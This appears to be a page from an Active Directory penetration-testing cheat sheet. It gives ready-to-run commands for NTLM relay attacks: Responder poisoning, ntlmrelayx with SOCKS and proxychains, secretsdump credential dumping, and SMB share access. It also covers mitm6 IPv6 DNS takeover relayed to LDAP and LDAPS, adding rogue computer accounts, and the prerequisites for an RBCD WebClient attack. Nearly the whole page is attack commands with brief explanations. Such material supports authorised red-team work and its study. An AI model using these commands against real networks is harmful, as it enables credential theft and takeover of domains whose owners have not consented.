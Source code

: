 ```
Responder -I eth0
ntlmrelayx.py -tf smb_hosts_nosigning.txt --socks

# Get overview of all relay attempts
ntlmrelayx> socks

# Change socks proxy
sudo vim /etc/proxychains4.conf
socks4 127.0.0.1 1080

# Use proxychains and it will ignore the password value and use the relay credential instead
proxychains python3 secretsdump.py <DOMAIN>/<USER>:IDontCareAboutPassword@<TARGET>

# Also possible to access shares on the network, for example if user is not local admin
proxychains python3 smbclient.py <DOMAIN>/<USER>:IDontCareAboutPassword@<TARGET>
```

### LDAP Relaying
- With mitm6
- In modern Windows operating systems, IPv6 is enabled by default. This means that systems periodically poll for an IPv6 lease, as IPv6 is a newer protocol than IPv4, and Microsoft decided it was a good idea to give IPv6 precedence over IPv4.
- However, in the vast majority of organizations, IPv6 is left unused, which means that an adversary could hijack the DHCP requests for IPv6 addresses and force authentication attempts to the attacker-controlled system. We do that by setting our system as the primary DNS server.
- Spoof any requests for internal resources

```
sudo mitm6 -d <DOMAIN> --ignore-nofqdn
ntlmrelayx.py -t ldap://<DC IP> -wh <DOMAIN> -6
```

### LDAPS Relaying
- Relaying LDAPS can add a new computer account by abusing the fact that, by default, user are allowed to join domain up to 10 new computer objects

#### Enable the LDAPS relay
- Can wait for mitm6 to poison or force it
```
sudo mitm6 -d <DOMAIN> --ignore-nofqdn

ntlmrelayx.py -t ldaps://<DC IP> --add-computer <COMPUTER NAME>
```

- When computer account is created. This account can be used to enumerate the domain!

### Resource Based Constrained Delegation Webclient Attack
- Requirements:
  - On a Domain Controller to have the LDAP server signing not enforced (default value) (Requires authentication to check)
  - On a Domain Controller to have the LDAPS channel binding not required (default value)
  - Able to add new machines accounts (default value this quota is 10) (Requires authentication to check)
  - On the network, machines with WebClient running (some OS version had this service running by default or use the webclient starting trick from DTMSecurity) (Requires authentication to check)
  - A DNS record pointing to the attacker’s machine (By default authenticated users can do this) (Requires authentication to add)
